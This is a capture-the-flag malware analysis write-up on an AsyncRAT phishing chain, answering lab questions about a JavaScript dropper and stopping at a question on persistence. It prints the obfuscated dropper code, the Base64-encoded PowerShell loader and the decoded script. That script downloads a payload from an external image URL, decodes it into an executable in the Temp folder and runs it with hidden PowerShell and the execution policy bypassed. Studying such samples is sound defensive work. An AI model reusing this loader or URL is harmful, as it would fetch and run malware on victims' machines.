# AsyncRAT

### Scenario

You are a cybersecurity analyst at Globex Corp. A concerning report has come in: an employee opened an email with an attachment claiming to be an order specification, which actually harbored a JavaScript file designed to deploy AsyncRAT. This malware evades detection with alarming efficiency. To secure Globex's network and data, you must analyze the attachment, reverse-engineer the AsyncRAT’s obfuscation techniques, and determine the scope of AsyncRAT's infiltration.



### Tool

- Browser's Console

- DetectItEasy

- dnSpy

- CyberChef

### Solution

#### Question 1: In the process of dissecting the AsyncRAT payload, you discover a variable in the PowerShell script shrouded in complexity. What is the name of this variable that conceals the malicious obfuscated code?

We have a obfuscated JS code



There are 4 functions:

```js
function (_0x4fbbdd, _0x38b324){...}

function PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI(_0x5d58a2){...}

function _0x55e1(_0x2fba78, _0x26ef0b){...}

function _0x2053(){...}
```

... Because this is JS code so I pasted all of them to the **Console** of the browser to help me find the value of other variables easily



After that, I will check the value of each variable

```js
var _0x2ed357 = _0x55e1;
var gQBnV = ![];
var olffySApjnmNzEVCrHdsmIvkvtrmdvjBfknvClSyBGJHuqChGtDdwNjUtRxkkyfJOYUiJGZMAThKDTsUxGJuaNqSbTPvTbbqmefDGsXrinQyOMnXQfeSjWxgZKFIubTWXJNqCxTJwTRbGDBclyLnPEmbnFRmJCPDQxEhyrMtITkhfcVQBxcMaJXujuQBrVucxLrEASLY = PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI(_0x2ed357(0x12c));
var hanqbbYcWLzDlNxOPncjvQCBQonxVECthpIBwsmoBBvosDsujcOzxzaSUiwwkpZHunsTFbSwqYqacScohDNICrUwvjkGulSfZZmeTtftPaPdvKsQTJQISdssGpxQIUGuxwhWPmoCMGohuYLXDyTwcGOtBtKBHZMXyOJlkQOEhkiqLvzhicJrDPknYXzFTodoezdLgRHq = PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI('\x27\x20=\x20ogidoC$') + olffySApjnmNzEVCrHdsmIvkvtrmdvjBfknvClSyBGJHuqChGtDdwNjUtRxkkyfJOYUiJGZMAThKDTsUxGJuaNqSbTPvTbbqmefDGsXrinQyOMnXQfeSjWxgZKFIubTWXJNqCxTJwTRbGDBclyLnPEmbnFRmJCPDQxEhyrMtITkhfcVQBxcMaJXujuQBrVucxLrEASLY + '\x27;' + PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI(_0x2ed357(0x124)) + PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI(_0x2ed357(0x127)) + PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI(_0x2ed357(0x12e)) + PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI(_0x2ed357(0x12b)) + PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI(_0x2ed357(0x12d)) + PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI('6esaBmorF::]trevno') + PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI(_0x2ed357(0x126)) + PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI(_0x2ed357(0x125)) + PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI(_0x2ed357(0x121)) + PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI(_0x2ed357(0x11f)) + PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI(_0x2ed357(0x128)) + PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI('moc-\x20eliforPo') + PPGnIJfdSdJwnbhDmJOmPsHixFAUqYszDllXfNfgjBvoLlUjSGGClBwLWEMMGNpFQYhoJOugHPuOyfuGziEuOWLmcMWmyWNfYqfdoCgGMvwCJltPxiflBrKgywudmPLWXTYXcoJboaQdSKXTzmBswwBNcVdmARyaXbfmbDtfxzfTCFeQWgAnOQtnHPWVxrQnvVspDhKI('dxujWO$\x20dnam');
var eDiSkbNqurqMJDuUiMjNdhOPQQQBvgCftSEHiubYOGUaguzUTNMYeXrTtQOfKyfoAYstCerExYstbTlKouLwhYrnRQphSSARgdjkjrVfvyUZpnHZUSKwsqxMwNFXqElpakdDRQTBboYYHlOHdpQuaUtcDulXphSoyytwUdssTCfGwUoaWBxOUbiVhnwlqCxQURynpcjj = _0x2ed357(0x122);
var ESlFnRWpugflXfvZqSyJlkwsMpcbzCAvFjVaLHGmHCPVjVevdKGGqImgXdntYCyHpCJZWNwKzrUiJEdtUbSUwZDEcrUscveYRSCVwMyIGRzKcZGjcknRtkmrhtoHYyjrUqVpSuBjUVbcmXfLCWiAdbpEMwWATsqxmdxuDKODAfEFiwTDSExHzcsrUPrmOKWPyRGNlldF = new ActiveXObject(eDiSkbNqurqMJDuUiMjNdhOPQQQBvgCftSEHiubYOGUaguzUTNMYeXrTtQOfKyfoAYstCerExYstbTlKouLwhYrnRQphSSARgdjkjrVfvyUZpnHZUSKwsqxMwNFXqElpakdDRQTBboYYHlOHdpQuaUtcDulXphSoyytwUdssTCfGwUoaWBxOUbiVhnwlqCxQURynpcjj);
ESlFnRWpugflXfvZqSyJlkwsMpcbzCAvFjVaLHGmHCPVjVevdKGGqImgXdntYCyHpCJZWNwKzrUiJEdtUbSUwZDEcrUscveYRSCVwMyIGRzKcZGjcknRtkmrhtoHYyjrUqVpSuBjUVbcmXfLCWiAdbpEMwWATsqxmdxuDKODAfEFiwTDSExHzcsrUPrmOKWPyRGNlldF[_0x2ed357(0x120)](_0x2ed357(0x11a) + hanqbbYcWLzDlNxOPncjvQCBQonxVECthpIBwsmoBBvosDsujcOzxzaSUiwwkpZHunsTFbSwqYqacScohDNICrUwvjkGulSfZZmeTtftPaPdvKsQTJQISdssGpxQIUGuxwhWPmoCMGohuYLXDyTwcGOtBtKBHZMXyOJlkQOEhkiqLvzhicJrDPknYXzFTodoezdLgRHq + '\x22', 0x0, ![]);
```



Because the Console cannot find `ActiveXObject is not defined` so I will temporarily skip the variable `ESlFnRWpugflXfvZqSyJlkwsMpcbzCAvFjVaLHGmHCPVjVevdKGGqImgXdntYCyHpCJZWNwKzrUiJEdtUbSUwZDEcrUscveYRSCVwMyIGRzKcZGjcknRtkmrhtoHYyjrUqVpSuBjUVbcmXfLCWiAdbpEMwWATsqxmdxuDKODAfEFiwTDSExHzcsrUPrmOKWPyRGNlldF`, if I missed information, I'll look it up later. Read a little bit the code, we see that value of `olffySApjnmNzEVCrHdsmIvkvtrmdvjBfknvClSyBGJHuqChGtDdwNjUtRxkkyfJOYUiJGZMAThKDTsUxGJuaNqSbTPvTbbqmefDGsXrinQyOMnXQfeSjWxgZKFIubTWXJNqCxTJwTRbGDBclyLnPEmbnFRmJCPDQxEhyrMtITkhfcVQBxcMaJXujuQBrVucxLrEASLY` will be used in calculation of `hanqbbYcWLzDlNxOPncjvQCBQonxVECthpIBwsmoBBvosDsujcOzxzaSUiwwkpZHunsTFbSwqYqacScohDNICrUwvjkGulSfZZmeTtftPaPdvKsQTJQISdssGpxQIUGuxwhWPmoCMGohuYLXDyTwcGOtBtKBHZMXyOJlkQOEhkiqLvzhicJrDPknYXzFTodoezdLgRHq` so I will check the its value:



```powershell
$Codigo = 'JGltYWdlVXJsID0gJ2h0dHBzOi8vZ2Nk♛♚mIucGJyZC5j♛♚y9p♛♚WFnZXMvcllzcHhrelQzSzZrLnBuZyc7JHdlYkNsaWVudCA9IE5ldy1PYmplY3QgU3lzdGVtLk5ldC5XZWJD♛♚Gll♛♚nQ7JGltYWdlQnl0ZXMgPSAkd2ViQ2xpZW50LkRvd25s♛♚2FkRGF0YSgkaW1hZ2VVcmwpOyRp♛♚WFnZVRleHQgPSB♛♚U3lzdGVtLlRleHQuRW5j♛♚2Rp♛♚mddOjpVVEY4LkdldFN0cmluZygkaW1hZ2VCeXRlcyk7JHN0YXJ0RmxhZyA9ICc8PEJBU0U2NF9TVEFSVD4+JzskZW5kRmxhZyA9ICc8PEJBU0U2NF9FTkQ+Pic7JHN0YXJ0SW5kZXggPSAkaW1hZ2VUZXh0LkluZGV4T2YoJHN0YXJ0RmxhZyk7JGVuZEluZGV4ID0gJGltYWdlVGV4dC5J♛♚mRleE9mKCRl♛♚mRG♛♚GFnKTskc3RhcnRJ♛♚mRleCAtZ2UgMCAtYW5kICRl♛♚mRJ♛♚mRleCAtZ3QgJHN0YXJ0SW5kZXg7JHN0YXJ0SW5kZXggKz0gJHN0YXJ0RmxhZy5MZW5ndGg7JGJhc2U2NExl♛♚md0aCA9ICRl♛♚mRJ♛♚mRleCAtICRzdGFydEluZGV4OyRiYXNlNjRD♛♚21tYW5kID0gJGltYWdlVGV4dC5TdWJzdHJp♛♚mcoJHN0YXJ0SW5kZXgsICRiYXNlNjRMZW5ndGgpLlRvQ2hhckFycmF5KCk7W2FycmF5XTo6UmV2ZXJzZSgkYmFzZTY0Q29t♛♚WFuZCk7JGJhc2U2NENv♛♚W1h♛♚mQ9LWpvaW4gJGJhc2U2NENv♛♚W1h♛♚mQ7JGNv♛♚W1h♛♚mRCeXRlcyA9IFtTeXN0ZW0uQ29udmVydF06OkZy♛♚21CYXNlNjRTdHJp♛♚mcoJGJhc2U2NENv♛♚W1h♛♚mQpOyR0ZW1wRXhlUGF0aCA9IFtTeXN0ZW0uSU8uUGF0aF06OkdldFRl♛♚XBQYXRoKCkgKyB♛♚U3lzdGVtLkd1aWRdOjpOZXdHdWlkKCkuVG9TdHJp♛♚mcoKSArICIuZXhlIjt♛♚U3lzdGVtLklPLkZp♛♚GVdOjpXcml0ZUFs♛♚EJ5dGVzKCR0ZW1wRXhlUGF0aCwgJGNv♛♚W1h♛♚mRCeXRlcyk7cG93ZXJzaGVs♛♚C5leGUgLXdp♛♚mRvd3N0eWxlIGhpZGRl♛♚iAtZXhlY3V0aW9ucG9saWN5IGJ5cGFzcyAtTm9Qcm9maWxlIC1j♛♚21tYW5kICR0ZW1wRXhlUGF0aA==';$OWjuxd = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($codigo.replace('♛♚','b') ));powershell.exe -windowstyle hidden -executionpolicy bypass -NoProfile -command $OWjuxd
```

We see that value of `$OWjuxd` will be the output of decode Base64 with input `$Codigo` replaces character "♛♚" with "b". So I took the value, replaced it and go to the CyberChef to decode it.

```powershell
# After replacement 
$Codigo = 'JGltYWdlVXJsID0gJ2h0dHBzOi8vZ2NkbmIucGJyZC5jby9pbWFnZXMvcllzcHhrelQzSzZrLnBuZyc7JHdlYkNsaWVudCA9IE5ldy1PYmplY3QgU3lzdGVtLk5ldC5XZWJDbGllbnQ7JGltYWdlQnl0ZXMgPSAkd2ViQ2xpZW50LkRvd25sb2FkRGF0YSgkaW1hZ2VVcmwpOyRpbWFnZVRleHQgPSBbU3lzdGVtLlRleHQuRW5jb2RpbmddOjpVVEY4LkdldFN0cmluZygkaW1hZ2VCeXRlcyk7JHN0YXJ0RmxhZyA9ICc8PEJBU0U2NF9TVEFSVD4+JzskZW5kRmxhZyA9ICc8PEJBU0U2NF9FTkQ+Pic7JHN0YXJ0SW5kZXggPSAkaW1hZ2VUZXh0LkluZGV4T2YoJHN0YXJ0RmxhZyk7JGVuZEluZGV4ID0gJGltYWdlVGV4dC5JbmRleE9mKCRlbmRGbGFnKTskc3RhcnRJbmRleCAtZ2UgMCAtYW5kICRlbmRJbmRleCAtZ3QgJHN0YXJ0SW5kZXg7JHN0YXJ0SW5kZXggKz0gJHN0YXJ0RmxhZy5MZW5ndGg7JGJhc2U2NExlbmd0aCA9ICRlbmRJbmRleCAtICRzdGFydEluZGV4OyRiYXNlNjRDb21tYW5kID0gJGltYWdlVGV4dC5TdWJzdHJpbmcoJHN0YXJ0SW5kZXgsICRiYXNlNjRMZW5ndGgpLlRvQ2hhckFycmF5KCk7W2FycmF5XTo6UmV2ZXJzZSgkYmFzZTY0Q29tbWFuZCk7JGJhc2U2NENvbW1hbmQ9LWpvaW4gJGJhc2U2NENvbW1hbmQ7JGNvbW1hbmRCeXRlcyA9IFtTeXN0ZW0uQ29udmVydF06OkZyb21CYXNlNjRTdHJpbmcoJGJhc2U2NENvbW1hbmQpOyR0ZW1wRXhlUGF0aCA9IFtTeXN0ZW0uSU8uUGF0aF06OkdldFRlbXBQYXRoKCkgKyBbU3lzdGVtLkd1aWRdOjpOZXdHdWlkKCkuVG9TdHJpbmcoKSArICIuZXhlIjtbU3lzdGVtLklPLkZpbGVdOjpXcml0ZUFsbEJ5dGVzKCR0ZW1wRXhlUGF0aCwgJGNvbW1hbmRCeXRlcyk7cG93ZXJzaGVsbC5leGUgLXdpbmRvd3N0eWxlIGhpZGRlbiAtZXhlY3V0aW9ucG9saWN5IGJ5cGFzcyAtTm9Qcm9maWxlIC1jb21tYW5kICR0ZW1wRXhlUGF0aA=='
```

Decoded Base64:



And we got

```powershell
$imageUrl = 'https://gcdnb.pbrd.co/images/rYspxkzT3K6k.png';
$webClient = New - Object System.Net.WebClient;
$imageBytes = $webClient.DownloadData($imageUrl);
$imageText = [System.Text.Encoding]::UTF8.GetString($imageBytes);
$startFlag = '<<BASE64_START>>';
$endFlag = '<<BASE64_END>>';
$startIndex = $imageText.IndexOf($startFlag);
$endIndex = $imageText.IndexOf($endFlag);
$startIndex - ge 0 - and $endIndex - gt $startIndex;
$startIndex += $startFlag.Length;
$base64Length = $endIndex - $startIndex;
$base64Command = $imageText.Substring($startIndex, $base64Length).ToCharArray();
[array]::Reverse($base64Command);
$base64Command = -join $base64Command;
$commandBytes = [System.Convert]::FromBase64String($base64Command);
$tempExePath = [System.IO.Path]::GetTempPath() + [System.Guid]::NewGuid().ToString() + ".exe";
[System.IO.File]::WriteAllBytes($tempExePath, $commandBytes);
powershell.exe - windowstyle hidden - executionpolicy bypass - NoProfile - command $tempExePath
```

We see that, this is a malicious code. Therefore, `$Codigo` conceals the malicious obfuscated code

#### Question 2: As you trace the AsyncRAT’s steps, you come across a pivotal moment where it reaches out to the internet, fetching the next phase of its invasion. Identify the URL used to download the second stage of this malicious campaign.

We continue the analysis process. We see that the code download the image from `https://gcdnb.pbrd.co/images/rYspxkzT3K6k.png`



#### Question 3: Within the chaos of encoded data retrieved during your investigation, there's a string that signals the beginning of the encoded code. What is this marker indicating where the encoded treasure lies within the downloaded file?

Easy to see that, it's `<<BASE64_START>>`



#### Question 4: The second stage of AsyncRAT has been meticulously unpacked, revealing an extracted Portable Executable (PE). To understand this stage's uniqueness, what is the MD5 hash of this extracted PE?

So let's extract the PE. In general, It will get the information of `rYspxkzT3K6k.png` the find the `<<BASE64_START>>` and `<<BASE64_END>>`. The strings between them will be and **decode Base64**







Save it and check the MD5



#### Question 5: AsyncRAT seeks to embed itself within the system for long-term espionage. During your sweep, you stumble upon a registry key intended for persistence. Can you provide the full path of this registry key where the malware attempts to solidify its presence?

Check the DetectItEasy, it's .NET, so I will use `dnSpy` to further analyse it

